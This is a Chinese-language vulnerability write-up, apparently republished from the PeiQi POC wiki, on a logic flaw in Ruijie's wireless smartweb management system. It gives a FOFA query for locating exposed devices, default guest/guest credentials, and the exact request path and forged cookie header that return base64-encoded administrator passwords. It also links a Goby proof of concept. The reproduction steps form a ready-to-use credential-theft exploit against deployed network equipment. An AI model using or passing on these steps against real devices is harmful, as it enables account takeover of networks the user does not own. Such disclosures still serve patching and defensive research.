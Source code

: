 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nvk4Nu8q8AxeuPDPygllWA)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

**锐捷网络股份有限公司无线 smartweb 管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。**

**二:  漏洞影响🐇**

**锐捷网络股份有限公司 无线 smartweb 管理系统**

**三:  漏洞复现🐋**

```
FOFA: title="无线smartWeb--登录页面"
```

登录页面如下

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3MpEyfmBpzLq03e54eGXvbib8pS8bWOiaGva7L0icNoDxHgj5UxwbhcMpQ/640?wx_fmt=png)

**然后找到了一个设备存在管理 admin 员的弱口令，进去后发现 Web CLI 控制台**

**翻文件的过程中发现一个文件很有意思，运行命令查看**

```
more /web/xml/webuser-auth.xml
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG30c4teS9LWDOnFBDfr7KRDOQzLfLFhLyXsqRia2OxCHeLcB8srjbRGjA/640?wx_fmt=png)

**里面存在所有人的账号密码**

**默认存在 guest 账户，账号密码为 **guest/guest****

**其中登录的过程中搜索 admin 的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin 密码的 base64 加密**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG38XyyHjYJNvTFcNCrjAzrm492XBT4BOFuticQQqOxetq0qhbmibf2Emng/640?wx_fmt=png)

**解密就可以获得 admin 管理员的密码，尝试直接请求**  

```
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3LvfiaJ0xOGYz3Q27COtibpbib6dl2jPYBfuZIBV2C4kvP1jlOiaE7UIKpA/640?wx_fmt=png)

 ****四:  Goby & POC🦉****

```
已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
Ruijie_smartweb_password_information_disclosure
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3PDfEJs8FjRdbzFqiaOTx1C9zb0BWiaRP4iaDVNN8NKxZ4OogVQaKicpbpQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3vcLkH0iagWFia8GTmWYbH5cSZD4DHdSaNic73RiaHqWFkorxuKIo8dicBxA/640?wx_fmt=png)

 ****五:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库和团队的公众号啦，更新的文章都会在第一时间推送在交流群和公众号，想要投稿的加我一起建设文库~
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3oFxduIZusbktTovD18wqMFpp8xLtZ1ZaPOghhV1eQhyKJ7NflN8zSw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3w19aTRfNYGuKWCK5UvmhXPzbS6nqklyPnPuECevR1MzdvONpgnGrZw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7u5y5KbaqpHBzTN4nGDKG3dHkvubfZibTpUsjs9H7Qq521dseDtibT2eBbib4F5gibDtXpTVLfKbcSYQ/640?wx_fmt=png)